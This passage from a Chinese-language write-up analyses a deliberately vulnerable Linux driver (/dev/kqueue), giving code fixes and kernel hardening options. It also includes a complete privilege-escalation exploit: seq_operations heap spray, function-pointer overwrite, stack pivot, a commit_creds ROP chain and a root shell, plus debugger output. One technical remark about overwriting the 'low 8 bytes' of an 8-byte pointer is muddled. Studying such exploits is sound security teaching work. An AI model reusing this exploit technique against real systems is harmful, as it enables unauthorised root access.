+----------------+ 0x00-0x07: start函数指针
+----------------+ 0x08-0x0F: stop函数指针
+----------------+ 0x10-0x17: next函数指针
+----------------+ 0x18-0x1F: show函数指针
```

#### 2-4-2. user_key_payload结构体

`user_key_payload`是Linux密钥子系统中的结构体，用于存储用户密钥数据，同样分配在kmalloc-32缓存：

```c
struct user_key_payload {
    struct rcu_head rcu;        /* RCU删除回调 */
    unsigned short datalen;     /* 数据长度 */
    char data[];                /* 可变长度数据 */
};
```

**关键特性**：

1. **大小可控**：通过控制`datalen`可使结构体大小为32字节
2. **数据区域可控**：`data`字段包含用户可控数据
3. **释放机制**：通过密钥引用计数管理生命周期
4. **操作接口**：通过密钥子系统API进行操作

**分配方式**：

```c
/* 创建用户密钥并设置payload */
struct key *key;
key = keyctl(KEYCTL_JOIN_SESSION_KEYRING, "test_keyring");
add_key("user", "test_key", payload_data, payload_size, key);
```

**内存布局**：

```
user_key_payload结构体布局（32字节）：
+----------------+ 0x00-0x0F: rcu_head结构
+----------------+ 0x10-0x11: datalen字段
+----------------+ 0x12-0x13: 填充字节
+----------------+ 0x14-0x1F: data[]数组开始
```

#### 2-4-3. 结构体选择策略

**选择标准**：

1. **大小精确匹配**：必须为32字节，确保分配在kmalloc-32
2. **包含函数指针**：有可直接或间接调用的函数指针
3. **触发可控**：可通过用户空间操作稳定触发
4. **分配可预测**：分配时机和位置相对可控
5. **生命周期管理**：能够控制分配和释放时机

**对比分析**：

| 特性     | seq_operations     | user_key_payload            |
| -------- | ------------------ | --------------------------- |
| 大小     | 固定32字节         | 可通过datalen控制为32字节   |
| 函数指针 | 4个直接函数指针    | 无直接函数指针，但有RCU回调 |
| 触发方式 | 文件读取操作       | 密钥操作                    |
| 分配控制 | 通过open/close控制 | 通过密钥API控制             |
| 稳定性   | 高，proc接口稳定   | 中等，依赖密钥子系统        |



### 2-5. 漏洞协同利用链

#### 2-5-1. 利用链阶段划分

完整利用链包含六个阶段，形成从条件创造到控制流转移的完整路径：



#### 2-5-2. 阶段详解

**阶段1：异常队列构造**

```c
// 触发整数溢出，queue_size=32
create_kqueue(
    .max_entries = 0xFFFFFFFF,  // 触发算术异常
    .data_size = 0x100          // 主数据缓冲区大小
);

// 内存结果：
// [kmalloc-32] queue结构 (32字节)
// [kmalloc-256] queue->data (256字节)
// queue->queue_size错误记录为32
```

**阶段2：目标结构体堆喷**

```c
// 密集分配seq_operations结构体
int seq_fds[200];
for (int i = 0; i < 200; i++) {
    seq_fds[i] = open("/proc/self/stat", O_RDONLY);
    // 每个open分配seq_operations结构体
    // 期望至少一个位于new_queue相邻位置
}
```

**阶段3：溢出数据构造**

```c
// 构造40字节溢出数据
struct {
    char padding[0x20];           // 填充32字节缓冲区
    uint64_t target_gadget;       // 覆盖目标函数指针
    char remaining[0x8];          // 额外8字节
} exploit_data;

// 设置栈迁移指令序列地址
exploit_data.target_gadget = ADD_RSP_0xD0_POP_RBX_POP_RBP_RET;
```

**阶段4：触发溢出覆盖**

```c
// 触发堆缓冲区溢出
save_kqueue_entries(
    .queue_idx = 0,
    .max_entries = 1,
    .data_size = 0x28  // 40 > 32，溢出8字节
);

// 结果：seq_operations->start指针被覆盖
```

**阶段5：控制流转移**

```c
// 通过读取触发被覆盖的函数指针
char buf[64];
read(seq_fd, buf, sizeof(buf));

// 内核调用链：
// seq_read()
// → seq_operations->start()  // 被覆盖为指令序列地址
// → 执行栈迁移指令序列
// → 控制流转移
```

#### 2-5-3. 数学协同模型

两个漏洞通过数学模型相互配合，形成完整利用条件：

**整数溢出条件**：
设用户输入$$n$$，正常计算应为：

$$
M_{\text{正常}} = 32 + 24 \times (n+1)
$$

异常触发条件：

$$
n = 2^{32} - 1 \Rightarrow M_{\text{异常}} = 32
$$

**堆溢出条件**：
设目标缓冲区大小$$B_t = M_{\text{异常}} = 32$$，用户指定拷贝大小$$B_c$$，需满足：

$$
B_c > 32
$$

**内存布局条件**：
设目标结构体与`new_queue`相邻概率为$$P$$，堆喷数量为$$N$$，则至少一个相邻的概率为：

$$
P_{\text{命中}} = 1 - (1 - P)^N
$$

当$$N=200$$，$$P=0.01$$时：

$$
P_{\text{命中}} = 1 - (1-0.01)^{200} \approx 0.866
$$

**完整利用条件**：

$$
\text{成功条件} = (n = 2^{32}-1) \land (B_c > 32) \land (P_{\text{命中}} \approx 1) \land (\text{数据可控})
$$

#### 2-5-4. 漏洞组合效应

两个独立漏洞组合产生的协同效应：

1. **条件创造**：整数溢出创造异常内存条件
    - 使`queue->queue_size`错误记录为32
    - 为后续溢出创造必要条件

2. **内存破坏**：堆溢出实现精准内存修改
    - 可控的溢出长度和内容
    - 精准覆盖相邻结构体的关键字段

3. **控制流转移**：函数指针覆盖引导执行流
    - 将正常控制流转移到非预期地址
    - 通过栈迁移进入预设执行环境

4. **权限异常**：非预期代码执行可能绕过检查
    - 在内核上下文执行任意代码
    - 可能修改进程凭证和权限

### 2-6. 代码修复与安全加固

#### 2-6-1. 输入验证强化

**修复方案1：参数范围检查**

```c
/* 定义合理的参数范围 */
#define MAX_REASONABLE_ENTRIES 10000
#define MIN_DATA_SIZE 1
#define MAX_DATA_SIZE 0x20

static noinline long create_kqueue(request_t request)
{
    /* 检查max_entries合理性 */
    if (request.max_entries == 0 ||
        request.max_entries > MAX_REASONABLE_ENTRIES) {
        return -EINVAL;
    }

    /* 检查特殊值0xFFFFFFFF */
    if (request.max_entries == 0xFFFFFFFF) {
        return -EINVAL;
    }

    /* 检查data_size合理性 */
    if (request.data_size < MIN_DATA_SIZE ||
        request.data_size > MAX_DATA_SIZE) {
        return -EINVAL;
    }

    /* 继续正常分配流程 */
}
```

**修复方案2：安全算术运算**

```c
/* 使用安全算术函数进行大小计算 */
#include <linux/overflow.h>

static noinline long create_kqueue(request_t request)
{
    size_t entry_mem, total_mem;

    /* 安全计算条目内存 */
    if (check_mul_overflow(sizeof(queue_entry),
                          (size_t)request.max_entries + 1,
                          &entry_mem)) {
        return -EOVERFLOW;
    }

    /* 安全计算总内存 */
    if (check_add_overflow(sizeof(queue), entry_mem, &total_mem)) {
        return -EOVERFLOW;
    }

    /* 验证总内存不超过合理限制 */
    if (total_mem > sizeof(queue) + 0x10000) {
        return -EINVAL;
    }

    /* 使用计算得到的总内存进行分配 */
    queue *queue = kmalloc(total_mem, GFP_KERNEL);
    if (!queue) {
        return -ENOMEM;
    }

    /* 记录正确的queue_size */
    queue->queue_size = total_mem;

    /* 继续正常初始化 */
}
```

#### 2-6-2. 内存操作安全

**修复方案3：缓冲区边界检查**

```c
static noinline long save_kqueue_entries(request_t request)
{
    /* 验证拷贝大小不超过源缓冲区 */
    if (request.data_size > queue->data_size) {
        return -EINVAL;
    }

    /* 验证拷贝大小不超过目标缓冲区 */
    if (request.data_size > queue->queue_size) {
        return -EINVAL;
    }

    /* 使用安全的最小值 */
    size_t copy_size = min_t(size_t, request.data_size, queue->queue_size);

    /* 执行边界检查后的拷贝 */
    if (copy_from_user(new_queue, queue->data, copy_size)) {
        kfree(new_queue);
        return -EFAULT;
    }

    /* 继续正常流程 */
}
```

**修复方案4：验证函数完善**

```c
/* 改进的验证函数，返回错误码 */
static noinline int validate_ptr(void *ptr, const char *msg)
{
    if (!ptr) {
        mutex_unlock(&operations_lock);
        printk(KERN_ERR "kqueue: %s failed\n", msg);
        return -ENOMEM;
    }
    return 0;
}

/* 使用示例 */
queue *queue = kmalloc(size, GFP_KERNEL);
if (validate_ptr(queue, "kmalloc queue")) {
    return -ENOMEM;
}
```

#### 2-6-3. 防御性编程实践

**最佳实践1：初始化敏感数据**

```c
/* 分配后立即初始化关键字段 */
queue *queue = kzalloc(total_mem, GFP_KERNEL);
if (!queue) {
    return -ENOMEM;
}

/* 设置默认值 */
queue->data_size = request.data_size;
queue->max_entries = request.max_entries;
queue->queue_size = total_mem;
queue->idx = 0;
queue->data = NULL;  /* 显式设置为NULL */
```

**最佳实践2：释放时清理**

```c
static noinline long delete_kqueue(request_t request)
{
    /* 安全检查 */
    if (request.queue_idx >= MAX_QUEUES) {
        return -EINVAL;
    }

    queue *queue = kqueues[request.queue_idx];
    if (!queue) {
        return -ENOENT;
    }

    /* 释放前清理 */
    if (queue->data) {
        memset(queue->data, 0, queue->data_size);
        kfree(queue->data);
    }

    /* 清理队列结构 */
    memset(queue, 0, queue->queue_size);
    kfree(queue);

    /* 清除指针引用 */
    kqueues[request.queue_idx] = NULL;
    isSaved[request.queue_idx] = false;
    queueCount--;

    return 0;
}
```

### 2-7. 系统性防护机制

#### 2-7-1. 编译时防护

**地址无关代码与位置无关可执行文件**

```makefile
# 内核编译选项加固
CONFIG_RELOCATABLE=y
CONFIG_RANDOMIZE_BASE=y
CONFIG_STACKPROTECTOR=y
CONFIG_STACKPROTECTOR_STRONG=y
CONFIG_STRICT_DEVMEM=y
CONFIG_STRICT_KERNEL_RWX=y
```

**控制流完整性保护**

```makefile
# 控制流完整性配置
CONFIG_CFI_CLANG=y
CONFIG_CFI_PERMISSIVE=n
CONFIG_SHADOW_CALL_STACK=y
```

#### 2-7-2. 运行时防护

**内核地址消毒剂（KASAN）**

```makefile
# 内存错误检测
CONFIG_KASAN=y
CONFIG_KASAN_OUTLINE=y
CONFIG_KASAN_INLINE=y
CONFIG_KASAN_GENERIC=y
```

**未定义行为检测（UBSAN）**

```makefile
# 算术异常检测
CONFIG_UBSAN=y
CONFIG_UBSAN_SANITIZE_ALL=y
CONFIG_UBSAN_BOUNDS=y
CONFIG_UBSAN_ARRAY_BOUNDS=y
CONFIG_UBSAN_DIV_ZERO=y
CONFIG_UBSAN_UNREACHABLE=y
```

#### 2-7-3. 硬件辅助防护

**内存保护扩展**

| 防护特性 | 功能描述         | 防护能力                 |
| -------- | ---------------- | ------------------------ |
| SMAP     | 管理模式访问保护 | 阻止内核访问用户空间内存 |
| SMEP     | 管理模式执行保护 | 阻止内核执行用户空间代码 |
| PAN      | 特权访问永不     | 阻止内核直接访问用户数据 |
| PXN      | 特权执行永不     | 扩展的执行保护机制       |
| MTE      | 内存标记扩展     | 检测内存安全违规         |

**控制流强制技术**

```c
/* Intel CET 保护机制 */
// 影子栈保护返回地址
// 间接分支跟踪验证跳转目标
// 终结指令验证控制流完整性
```

#### 2-7-4. 内核安全模块

**LSM框架集成**

```c
/* Linux安全模块钩子 */
static struct security_hook_list kqueue_hooks[] = {
    LSM_HOOK_INIT(file_ioctl, kqueue_ioctl_permission),
    LSM_HOOK_INIT(bprm_check_security, kqueue_module_check),
    LSM_HOOK_INIT(kernel_module_request, kqueue_module_load),
};

/* 权限检查示例 */
static int kqueue_ioctl_permission(struct file *file, unsigned int cmd)
{
    /* 检查ioctl命令权限 */
    if (cmd == CREATE_KQUEUE || cmd == DELETE_KQUEUE) {
        if (!capable(CAP_SYS_MODULE)) {
            return -EPERM;
        }
    }
    return 0;
}
```

**审计与监控**

```c
/* 安全审计日志 */
static noinline long create_kqueue(request_t request)
{
    /* 记录审计信息 */
    audit_log(current->audit_context, GFP_KERNEL, AUDIT_KQUEUE,
              "create kqueue: max_entries=%u, data_size=%u",
              request.max_entries, request.data_size);

    /* 继续正常操作 */
}
```

### 2-8. 总结

#### 2-8-1. 漏洞链核心要点

本驱动模块中的安全漏洞链揭示了内核驱动开发中多个典型问题的协同作用机制：

1. **算术异常漏洞**：在`create_kqueue()`函数中，由于对用户输入`max_entries`参数缺乏充分的边界检查，导致整数溢出异常，使得`queue_size`被错误计算为32字节，而非预期的巨大值。

2. **内存破坏漏洞**：在`save_kqueue_entries()`函数中，基于错误计算的`queue_size`分配小缓冲区，同时允许用户指定过大的拷贝大小，导致可控的堆缓冲区溢出。

3. **逻辑缺陷**：`validate()`函数的错误处理不完整，无法有效阻止异常状态的继续执行，为漏洞利用提供了便利条件。

这三个问题相互配合，形成了完整的利用链：算术异常创造异常内存条件 → 内存破坏实现精准覆盖 → 逻辑缺陷确保利用过程不被中断。

#### 2-8-2. 技术启示

**开发层面启示**：

1. **输入验证的全面性**：所有用户输入必须经过严格的范围和合理性检查，包括边界条件和特殊值
2. **算术运算的安全性**：使用安全的算术函数，避免溢出和回绕问题
3. **内存操作的边界性**：确保所有内存操作都在合法边界内进行
4. **错误处理的完整性**：错误情况必须完全终止操作，避免继续执行

**架构层面启示**：

1. **最小权限原则**：驱动程序应仅请求必要的权限
2. **防御性编程**：假设所有输入都可能异常，进行充分验证
3. **深度防御**：多层防护机制共同作用，单一防护失效不导致系统崩溃
4. **安全默认值**：默认配置应为安全配置，需要显式启用危险功能

#### 2-8-3. 防护策略体系

针对此类漏洞链，需要构建多层防护体系：

| 防护层级 | 具体措施                     | 防护目标     |
| -------- | ---------------------------- | ------------ |
| 代码层面 | 输入验证、安全算术、边界检查 | 预防漏洞引入 |
| 编译层面 | 栈保护、CFI、位置无关代码    | 增加利用难度 |
| 运行时   | KASAN、UBSAN、内存隔离       | 检测异常行为 |
| 硬件层面 | SMAP、SMEP、MTE、CET         | 硬件级防护   |
| 系统层面 | LSM、审计、监控              | 系统级管控   |

此漏洞链的分析不仅揭示了特定驱动模块的安全问题，更重要的是提供了理解复杂漏洞交互机制的范例。通过深入分析这类多层次、多阶段的安全漏洞，可以更好地设计防御策略，提高整个系统的安全性和鲁棒性。安全是一个持续的过程，需要开发人员、安全研究者和系统设计者的共同努力，从设计、实现到部署和维护的全生命周期中贯彻安全理念。

## 3. 实战演练

exploit核心代码如下：

```c
/* Gadget addresses */
size_t commit_creds = 0xffffffff8108e530;
size_t prepare_kernel_cred = 0xffffffff8108e950;
size_t swapgs_restore_regs_and_return_to_usermode = 0xffffffff81c00df0 + 0x1e;
size_t add_rsp_0Xd0_pop_rbx_pop_rbp_ret = 0xffffffff8126eb5f;
size_t pop_rdi_ret = 0xffffffff81001729;
size_t pop_rcx_pop_rbx_pop_rbp_ret = 0xffffffff811f2005;
size_t mov_rdi_rax_rep_movsq_rdi_rsi_ret = 0xffffffff81b2c10b;

int dev_fd;
int victim_fd;
int seq_fd[0x200];
size_t data[0x20] = {0};

/* Driver request structure */
typedef struct {
  uint32_t max_entries;
  uint16_t data_size;
  uint16_t entry_idx;
  uint16_t queue_idx;
  char *data;
} request_t;

void create_queue(uint32_t max_entries, uint16_t data_size) {
  request_t req = {.max_entries = max_entries, .data_size = data_size};
  ioctl(dev_fd, 0xDEADC0DE, &req);
}

void edit_queue(uint16_t queue_idx, uint16_t entry_idx, void *data) {
  request_t req = {
      .queue_idx = queue_idx, .entry_idx = entry_idx, .data = data};
  ioctl(dev_fd, 0xDAADEEEE, &req);
}

void delete_queue(uint16_t queue_idx) {
  request_t req = {.queue_idx = queue_idx};
  ioctl(dev_fd, 0xBADDCAFE, &req);
}

void save_queue(uint16_t queue_idx, uint32_t max_entries, uint16_t data_size) {
  request_t req = {.queue_idx = queue_idx,
                   .max_entries = max_entries,
                   .data_size = data_size};
  ioctl(dev_fd, 0xB105BABE, &req);
}

int main() {
  log.info("Phase 1: Environment setup");
  bind_core(0);
  save_status();

  log.info("Phase 2: Open vulnerable device");
  dev_fd = open("/dev/kqueue", O_RDONLY);
  if (dev_fd < 0) {
    log.error("Failed to open /dev/kqueue");
    exit(-1);
  }

  log.info("Phase 3: Prepare heap overflow data");
  data[4] = add_rsp_0Xd0_pop_rbx_pop_rbp_ret; // stack pivot gadget
  log.success("Stack pivot gadget placed at data[4] = 0x%lx", data[4]);

  log.info("Phase 4: Create and corrupt vulnerable kernel object");
  create_queue(0xffffffff, 0x20 * 8);
  edit_queue(0, 0, data);
  log.success("Kernel queue created and data buffer prepared for overflow");

  log.info("Phase 5: seq_operations heap spray");
  for (int i = 0; i < 0x200; i++) {
    seq_fd[i] = open("/proc/self/stat", O_RDONLY);
    if (seq_fd[i] < 0) {
      log.error("Failed to open /proc/self/stat");
      exit(-1);
    }
  }
  log.success("Sprayed 0x200 seq_operations objects");

  log.info("Phase 6: Trigger heap overflow to corrupt seq_operations->start");
  save_queue(0, 0, 0x28);
  log.success("Heap overflow triggered, seq_operations->start overwritten with "
              "stack pivot");

  log.info("Phase 7: Trigger corrupted seq_operations->start via syscall");
  for (int i = 0; i < 0x200; i++) {
    victim_fd = seq_fd[i];
    int pid = fork();
    if (pid < 0) {
      exit(-1);
    }
    if (pid == 0) {
      // Trigger seq_file->ops->start via read syscall
      __asm__("mov r15,   pop_rdi_ret;"
              "mov r14,   0;"
              "mov r13,   prepare_kernel_cred;"
              "mov r12,   pop_rcx_pop_rbx_pop_rbp_ret;"
              "mov rbp,   0;"
              "mov rbx,   0x55555555;"
              "mov r11,   0x66666666;"
              "mov r10,   mov_rdi_rax_rep_movsq_rdi_rsi_ret;"
              "mov r9,    commit_creds;"
              "mov r8,    swapgs_restore_regs_and_return_to_usermode;"
              "xor rax,   rax;"
              "mov rcx,   0xaaaaaaaa;"
              "mov rdx,   8;"
              "lea rsi,   data;"
              "mov rdi,   victim_fd;"
              "syscall");
      if (!getuid()) {
        get_root_shell();
      }
      exit(0);
    }
  }

  while (1) {
    sleep(1000);
  }
  return 0;
}
```

### 3-1. 环境准备与初始化

为确保与内核模块的交互一致性，首先需要准备与驱动模块完全匹配的数据结构。定义`request_t`结构体，包含所有必要的参数字段，每个字段对应特定的驱动操作。此结构体确保了用户空间与内核空间的数据交互格式统一，为后续操作提供基础。

**数据结构定义**：
`request_t`结构体精确对应驱动内部的数据格式，包括以下关键字段：

- `max_entries`：指定最大条目数，用于CREATE和SAVE操作
- `data_size`：指定数据缓冲区大小，用于CREATE和SAVE操作
- `entry_idx`：指定目标条目索引，用于EDIT操作
- `queue_idx`：指定目标队列索引，用于EDIT、DELETE和SAVE操作
- `data`：指向用户数据缓冲区的指针，用于EDIT操作

**操作接口封装**：
将原始的`ioctl`系统调用封装为语义清晰的函数接口，提高代码可读性和操作的可控性。每个封装函数对应一个特定的驱动命令码，接收相应的参数结构：

- `create_queue()`：封装创建队列操作，设置最大条目数和数据缓冲区大小
- `edit_queue()`：封装编辑队列操作，指定队列索引、条目索引和数据缓冲区
- `delete_queue()`：封装删除队列操作，指定目标队列索引
- `save_queue()`：封装保存队列操作，指定队列索引、最大条目数和数据大小

**执行环境配置**：
为减少多核环境下的竞争条件，通过`bind_core(0)`调用将进程绑定到特定CPU核心，提高时序一致性。这确保了内存分配和释放操作在单一CPU的缓存区域中进行，增加了堆布局的可预测性。

### 3-2. 漏洞触发流程

#### 3-2-1. 驱动设备初始化

建立与目标驱动设备的通信通道，是后续所有操作的基础。通过标准文件操作接口打开设备文件，验证返回的文件描述符有效性，并记录成功获取的文件描述符用于后续所有设备操作。

**设备访问流程**：

1. 尝试打开`/dev/kqueue`字符设备文件
2. 验证返回的文件描述符有效性
3. 记录成功获取的文件描述符
4. 检查设备文件权限和可用性

**错误处理机制**：如果设备打开失败，记录详细错误信息并终止执行。可能的失败原因包括设备文件不存在、权限不足、内核模块未加载或系统资源限制。

#### 3-2-2. 溢出数据构造

在触发溢出前，需要准备特定的数据载荷，确保溢出后能实现预期的内存修改效果。数据缓冲区的布局设计考虑了目标缓冲区的结构和溢出覆盖的关键位置。

**数据缓冲区布局**：
创建一个256字节的数据缓冲区，用于容纳完整的溢出载荷。缓冲区的布局设计确保关键覆盖值位于正确的偏移位置：

```
数据缓冲区布局：
+----------------+ 偏移0x00-0x1F: 前32字节填充数据
+----------------+ 偏移0x20-0x27: 栈迁移指令序列地址 ← 关键覆盖值
+----------------+ 偏移0x28-0xFF: 后续填充数据
```

**栈迁移指令序列**：
在偏移0x20处放置的栈迁移指令序列地址指向内核中的一个特殊代码片段。通过调试器分析，这个指令序列的具体实现为：

```
0xffffffff8126eb5f: add    rsp, 0xd0    ; 栈指针增加208字节
0xffffffff8126eb66: pop    rbx          ; 弹出值到RBX寄存器
0xffffffff8126eb67: pop    rbp          ; 弹出值到RBP寄存器
0xffffffff8126eb68: ret                 ; 返回，跳转到新栈顶
```

这个序列将执行栈从当前位置迁移到预定义的数据区域，为后续的控制流执行创造条件。栈迁移技术通过修改栈指针寄存器，将执行栈重定向到可控的内存区域。

#### 3-2-3. 异常队列构造

通过精心设置参数，创建具有异常内存特性的队列结构。调用`create_queue`函数，传入`max_entries=0xFFFFFFFF`和`data_size=0x100`参数。当`max_entries`为0xFFFFFFFF时，计算`max_entries+1`产生32位无符号整数异常，结果为0。这导致后续的内存计算异常，`queue_size`被错误计算为32字节。

**内存分配结果**：
由于整数异常，内存分配产生以下结果：

1. `queue`结构体仅分配32字节（kmalloc-32）
2. `queue->data`缓冲区独立分配256字节（kmalloc-256）
3. `queue->queue_size`字段被错误记录为32
4. 预期的`queue_entry`数组实际上不存在

**数据缓冲区填充**：
通过`edit_queue`操作将构造的溢出数据写入`queue->data`缓冲区。这个操作确保256字节的完整载荷被复制到内核空间，为后续的溢出操作做好准备。写入的数据包含前32字节的填充和关键的栈迁移地址。

#### 3-2-4. 目标结构体堆喷

在堆内存中密集分配目标结构体，增加溢出命中目标的概率。这是技术演示成功的关键步骤之一，通过大量分配目标结构体，提高相邻分配的概率。

**堆喷策略设计**：
通过循环打开大量`/proc`文件系统文件，触发内核分配`seq_operations`结构体。每个`open("/proc/self/stat", O_RDONLY)`调用都会在内核中创建一个`seq_operations`实例，这个结构体大小为32字节，分配在kmalloc-32缓存中。

```c
/* 堆喷操作示例 */
for (int i = 0; i < 0x200; i++) {
    seq_fd[i] = open("/proc/self/stat", O_RDONLY);
}
```

**open系统调用到分配seq_operations的完整调用链**：
当用户程序调用`open("/proc/self/stat", O_RDONLY)`时，内核中触发以下调用链，同时分配`seq_file`和`seq_operations`两个结构体，并建立它们之间的关联：



**调用链详细说明**：

1. **用户空间调用**：用户程序调用`open("/proc/self/stat", O_RDONLY)`，指定打开`/proc/self/stat`文件，只读模式
2. **系统调用入口**：通过`sys_open()`或`SYSC_openat`系统调用进入内核空间
3. **路径解析**：`do_sys_open()`、`do_filp_open()`、`path_openat()`等一系列函数解析文件路径
4. **虚拟文件系统处理**：`vfs_open()`调用文件系统特定的打开方法
5. **proc文件系统初始化**：`proc_single_open()`处理proc文件的打开，调用`single_open()`设置序列文件操作
6. **序列文件创建**：`seq_open()`函数创建序列文件结构
7. **内存分配**：通过`kzalloc`分配`seq_file`结构体，通过`kmalloc`分配`seq_operations`结构体
8. **结构体关联**：`seq_file`结构体通过`op`指针引用`seq_operations`结构体
9. **结果返回**：返回文件描述符给用户空间，后续可通过此描述符进行读取操作

**概率分析模型**：
设单个`seq_operations`与目标缓冲区相邻的概率为$$P$$，堆喷数量为$$N$$，则至少一个相邻的概率为：

$$
P_{\text{至少一个}} = 1 - (1 - P)^N
$$

当$$P=0.01$$，$$N=512$$（0x200）时：

$$
P_{\text{至少一个}} = 1 - (1-0.01)^{512} \approx 0.994
$$

这意味着堆喷512个结构体后，至少一个与目标缓冲区相邻的概率高达99.4%。

**内存布局目标**：
期望至少一个`seq_operations`结构体分配在后续分配的`new_queue`缓冲区相邻位置。由于两者都分配在kmalloc-32缓存，且分配时间相近，相邻概率显著提高。通过大量堆喷，可以几乎确保这种相邻关系的存在。

#### 3-2-5. 堆溢出触发

通过保存操作触发堆缓冲区溢出，修改相邻结构体的关键字段。这是技术演示链中最关键的操作步骤，通过精确控制溢出长度和内容，实现目标内存的修改。

**溢出操作执行**：
调用`save_queue`函数，设置`data_size`参数为0x28（40字节）。由于`queue->queue_size`为32字节，这将触发8字节的堆缓冲区溢出。

```c
/* 触发溢出操作示例 */
save_queue(0, 0, 0x28);
```

**内存分配与数据复制过程**：
在`save_kqueue_entries`函数中，内核首先为`new_queue`分配内存：

```c
char *new_queue = validate((char *)kzalloc(queue->queue_size, GFP_KERNEL));
```

通过调试器检查，分配的内存地址为`0xffff88800e236180`。初始状态下，该内存区域内容为全零：

```
pwndbg> p/x new_queue
$1 = 0xffff88800e236180
pwndbg> x/16gx new_queue
0xffff88800e236180:     0x0000000000000000      0x0000000000000000
0xffff88800e236190:     0x0000000000000000      0x0000000000000000
0xffff88800e2361a0:     0xffffffff812112b0      0xffffffff812112d0
0xffff88800e2361b0:     0xffffffff812112c0      0xffffffff81274960
0xffff88800e2361c0:     0xffffffff812112b0      0xffffffff812112d0
0xffff88800e2361d0:     0xffffffff812112c0      0xffffffff81274960
0xffff88800e2361e0:     0xffffffff812112b0      0xffffffff812112d0
0xffff88800e2361f0:     0xffffffff812112c0      0xffffffff81274960
```

在偏移0xa0处，可以看到相邻的`seq_operations`结构体的内容。其中`0xffffffff812112b0`是`single_start`函数指针，指向正常的序列操作函数：

```
pwndbg> x/1gx 0xffffffff812112b0
0xffffffff812112b0 <single_start>:      0x940f003e8348c031
```

**数据复制与溢出**：
当执行`__copy_from_user(new_queue, queue->data, request.data_size)`时，从用户空间复制40字节数据到`new_queue`缓冲区。由于`queue->queue_size`为32字节，这将导致8字节的溢出，覆盖相邻内存区域。

溢出后，内存内容发生变化：

```
pwndbg> x/16gx new_queue
0xffff88800e236180:     0x0000000000000000      0x0000000000000000
0xffff88800e236190:     0x0000000000000000      0x0000000000000000
0xffff88800e2361a0:     0xffffffff8126eb5f      0xffffffff812112d0
0xffff88800e2361b0:     0xffffffff812112c0      0xffffffff81274960
0xffff88800e2361c0:     0xffffffff812112b0      0xffffffff812112d0
0xffff88800e2361d0:     0xffffffff812112c0      0xffffffff81274960
0xffff88800e2361e0:     0xffffffff812112b0      0xffffffff812112d0
0xffff88800e2361f0:     0xffffffff812112c0      0xffffffff81274960
```

关键变化发生在偏移0xa0处：`single_start`函数指针从原来的`0xffffffff812112b0`被修改为`0xffffffff8126eb5f`。这个新地址指向栈迁移指令序列：

```
pwndbg> x/4i 0xffffffff8126eb5f
   0xffffffff8126eb5f <quota_getnextquota+319>: add    rsp,0xd0
   0xffffffff8126eb66 <quota_getnextquota+326>: pop    rbx
   0xffffffff8126eb67 <quota_getnextquota+327>: pop    rbp
   0xffffffff8126eb68 <quota_getnextquota+328>: ret
```

**溢出机制分析**：

1. 驱动基于`queue->queue_size`（32字节）分配`new_queue`缓冲区
2. 从`queue->data`拷贝40字节数据到`new_queue`
3. 超出`new_queue`边界的8字节覆盖相邻内存
4. 相邻内存中的`seq_operations`结构体的`single_start`函数指针的低8字节被修改

**溢出长度计算**：
设目标缓冲区大小$$B_t = 32$$字节，拷贝数据大小$$B_c = 40$$字节，溢出长度$$O$$为：

$$
O = B_c - B_t = 40 - 32 = 8 \text{字节}
$$

这8字节的溢出刚好覆盖`seq_operations->single_start`函数指针的低8字节，而高8字节保持不变，确保修改后的地址仍在有效内核地址空间内。

**内存状态变化**：
溢出前，`seq_operations->single_start`指针指向正常的序列操作函数`single_start`。溢出后，这个指针被修改为栈迁移指令序列地址`add rsp, 0xd0; pop rbx; pop rbp; ret`。被修改的指针从原来的序列操作函数地址变为栈迁移指令序列地址，为后续的控制流转移创造条件。

### 3-3. 控制流转移执行

#### 3-3-1. 函数指针触发

通过正常的文件读取操作触发被修改的函数指针，开始控制流转移过程。这是从内存破坏到代码执行的关键转换点，通过系统调用路径进入内核的执行流程。

**触发机制**：
对每个可能被影响的文件描述符执行`read`系统调用。当内核处理这个读取请求时，会通过`seq_operations`结构体调用`single_start`函数指针。由于这个指针已被修改，执行流将跳转到栈迁移指令序列地址。

**多进程并行策略**：
创建多个子进程并行尝试触发，提高成功概率。每个子进程选择一个文件描述符进行读取操作。由于只有部分文件描述符对应的结构体被成功修改，并行尝试可以快速找到有效的目标。

**read系统调用到触发seq_operations->single_start的完整调用链**：
当用户程序调用`read(seq_fd, ...)`时，内核中触发以下调用链，最终到达`seq_operations->single_start`函数指针调用：



**调用链详细说明**：

1. **用户空间调用**：用户程序调用`read(seq_fd, buf, size)`，指定文件描述符、缓冲区和读取大小
2. **系统调用入口**：通过`sys_read()`系统调用进入内核空间
3. **虚拟文件系统处理**：`vfs_read()`调用文件系统特定的读取方法
4. **序列文件读取**：对于proc序列文件，调用`seq_read()`处理读取请求
5. **序列起始函数**：`seq_read()`调用`m_start()`获取序列起始位置
6. **函数指针调用**：`m_start()`通过`seq_file->op`访问`seq_operations`结构体，调用`single_start`函数指针
7. **控制流转移**：由于`single_start`指针已被修改，控制流跳转到栈迁移指令序列地址
8. **栈迁移执行**：执行`add rsp, 0xd0; pop rbx; pop rbp; ret`指令序列
9. **控制流引导**：栈迁移后，控制流转入预设的指令序列，开始执行后续操作

**关键时序关系**：
读取操作触发了完整的文件系统调用链，这个调用链最终到达`seq_operations`结构体的函数指针调用。由于这个指针在堆溢出阶段被修改，正常的控制流被重定向到栈迁移指令地址。这种控制流转移利用了内核正常的执行路径。

#### 3-3-2. pt_regs结构布局与栈迁移计算

`pt_regs`是内核在系统调用时保存用户态寄存器状态的数据结构。当用户态程序通过`syscall`指令进入内核时，处理器会自动将用户态的寄存器值压入内核栈，形成`pt_regs`结构。这个结构包含了系统调用前后的完整寄存器状态，是内核与用户态之间上下文切换的关键。

**内核栈布局原理**：
在x86_64架构中，内核栈从高地址向低地址增长。当系统调用发生时，内核会将当前栈帧切换到内核栈，并将`pt_regs`结构压入内核栈。栈顶（低地址）存放当前函数调用的局部变量，栈底（高地址）存放系统调用保存的寄存器状态。

**pt_regs结构布局**：
`pt_regs`结构在内核栈中的布局（从低地址向高地址）如下：

```
+----------------+ 低地址（栈顶方向）
| R15            | ← 被调用者保存寄存器
| R14            | ← 被调用者保存寄存器
| R13            | ← 被调用者保存寄存器
| R12            | ← 被调用者保存寄存器
| RBP            | ← 帧指针
| RBX            | ← 被调用者保存寄存器
| R11            | ← 临时寄存器
| R10            | ← 第7个参数
| R9             | ← 第6个参数
| R8             | ← 第5个参数
| RAX            | ← 系统调用返回值
| RCX            | ← 第4个参数
| RDX            | ← 第3个参数
| RSI            | ← 第2个参数
| RDI            | ← 第1个参数
| 原始RAX        | ← 系统调用号
